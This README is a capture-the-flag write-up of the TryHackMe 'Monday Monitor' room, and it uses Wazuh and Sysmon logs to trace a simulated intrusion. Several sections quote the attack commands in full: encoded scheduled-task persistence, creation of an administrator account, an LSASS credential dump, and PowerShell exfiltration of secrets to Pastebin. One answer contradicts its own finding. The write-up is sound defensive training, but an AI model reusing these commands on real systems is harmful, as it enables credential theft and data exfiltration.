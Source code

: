 # Monday monitor tryhackme [here](https://tryhackme.com/room/mondaymonitor)

Swiftspend Finance is enhancing its cybersecurity by leveraging **Wazuh** and **Sysmon** for endpoint monitoring. On April 29, 2024, between 12:00:00 and 20:00:00, tests were conducted to detect suspicious activities. This README outlines the investigation of a security incident involving a phishing attachment, scheduled task, credential dumping, and data exfiltration, using Wazuh logs and Sysmon events. The analysis addresses the following questions:

1. File name saved on the host from initial access.
2. Full command used to create a scheduled task.
3. Scheduled task execution time.
4. Decoded content of the encoded data.
5. Password set for the new user account.
6. Name of the executable used to dump credentials.
7. Flag included in the exfiltrated data.

## Incident Overview

The incident involves a phishing attack that downloaded a malicious file, established persistence via a scheduled task, created a new user account, dumped credentials, and exfiltrated sensitive data. Wazuh and Sysmon logs were analyzed to uncover these activities, mapped to MITRE ATT&CK techniques.

## Investigation Steps and Findings

### 1. File Name Saved on the Host
**Question**: What is the file name saved on the host from initial access?

**Search**: Queried Wazuh for `localhost` to identify download events.

**Finding**: A PowerShell command downloaded a file from `http://localhost/SwiftSpend_Financial_Expenses.xlsm` and saved it as `PhishingAttachment.xlsm` in the Temp directory.

**Log**:
```
"powershell.exe" & {$url = 'http://localhost/SwiftSpend_Financial_Expenses.xlsm' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm}
```
![PowerShell Download Event](./screenshots/1.png)
![Wazuh Dashboard](./screenshots/2.png)

**Answer**: The file saved on the host is `SwiftSpend_Financial_Expenses.xlsm`.

**MITRE ATT&CK**: T1566.001 (Spearphishing Attachment)

### 2. Full Command for Scheduled Task
**Question**: What is the full command run to create a scheduled task?

**Search**: Filtered Wazuh for `scheduler` or `schtasks`, yielding 10 hits, with two suspicious entries.

**Finding**: A command created a scheduled task named `ATOMIC-T1053.005` with a Base64-encoded payload.

**Log**:
```
"cmd.exe" /c "reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f & schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\SOFTWARE\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34"
```
![Scheduled Task Logs](./screenshots/3.png)
![Scheduled Task Details](./screenshots/4.png)

**Answer**: The full command is:
```
cmd.exe /c "reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f & schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\SOFTWARE\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34"
```

**MITRE ATT&CK**: T1053.005 (Scheduled Task)

### 3. Scheduled Task Execution Time
**Question**: What time is the scheduled task meant to run?

**Finding**: The scheduled task command specifies `/st 12:34` for daily execution.

**Log Reference**: See above command.

**Answer**: The scheduled task runs at **12:34**.
![time](./screenshots/5.png)

**MITRE ATT&CK**: T1053.005 (Scheduled Task)

### 4. Decoded Encoded Data
**Question**: What was encoded?

**Search**: Analyzed the Base64-encoded data `cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0=` from the scheduled task command.

**Finding**: Decoded using a Base64 decoder, the data translates to `ping www.youarevulnerable.thm`.

![Base64 Decoder Output](./screenshots/6.png)
![Wazuh Log Analysis](./screenshots/7.png)

**Answer**: The encoded data decodes to `ping www.youarevulnerable.thm`.

**MITRE ATT&CK**: T1027 (Obfuscated Files or Information)

### 5. Password for New User Account
**Question**: What password was set for the new user account?

**Search**: Filtered Wazuh for `/add` and `net.exe`, identifying commands related to user account creation. Further searched for `guest` to find the password.

**Finding**: The command `"C:\Windows\system32\net.exe" user guest I_AM_M0NIT0R1NG` sets the password for the `guest` account. Another command adds `guest` to the Administrators group.

**Logs**:
```
"C:\Windows\system32\net.exe" localgroup Administrators guest /add
"C:\Windows\system32\net.exe" user guest I_AM_M0NIT0R1NG
```
![User Account Creation](./screenshots/8.png)
![Guest Account Password](./screenshots/9.png)
![pass](./screenshots/10.png)

**Answer**: The password for the new user account is `I_AM_M0NIT0R1NG`.

**MITRE ATT&CK**: T1078.003 (Local Accounts)
### 6. Executable for Credential Dumping
**Question**: What is the name of the .exe that was used to dump credentials?

**Search**: Queried Wazuh for `*dump*`, yielding 15 hits, with relevant entries involving `memotech.exe`.

**Finding**: The command uses `memotech.exe` to perform credential dumping via `sekurlsa::minidump` and `sekurlsa::logonpasswords`.

**Log**:
```
"C:\Tools\AtomicRedTeam\atomics\T1003.001\bin\x64\memotech.exe" "sekurlsa::minidump C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP" "sekurlsa::logonpasswords full" exit
```
![Credential Dumping Event](./screenshots/11.png)

**Answer**: The executable used is `memotech.exe`.

**MITRE ATT&CK**: T1003.001 (LSASS Memory Dumping)

### 7. Flag in Exfiltrated Data
**Question**: What was the flag that was part of the exfiltrated data?

**Search**: Filtered Wazuh for `*Post*`, identifying a PowerShell command sending data to Pastebin.

**Finding**: The command includes a flag `THM{M0N1T0R_1$_1N_3FF3CT}` in the exfiltrated content.

**Log**:
```
"powershell.exe" & {$apiKey = "6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0" $content = "secrets, api keys, passwords, THM{M0N1T0R_1$_1N_3FF3CT}, confidential, private, wall, redeem..." $url = "https://pastebin.com/api/api_post.php" $postData = @{ api_dev_key = $apiKey api_option = "paste" api_paste_code = $content } $response = Invoke-RestMethod -Uri $url -Method Post -Body $postData Write-Host "Your paste URL: $response"}
```
![Data Exfiltration Log](./screenshots/12.png)

**Answer**: The flag is `THM{M0N1T0R_1$_1N_3FF3CT}`.

**MITRE ATT&CK**: T1567 (Exfiltration Over Web Service)
## Wazuh and Sysmon Configuration


## Documentation
- Wazuh: [documentation.wazuh.com](https://documentation.wazuh.com)
- Sysmon: [Sysmon Community Guide](https://github.com/trustedsec/SysmonCommunityGuide)
- Osquery: [osquery.io](https://osquery.io)
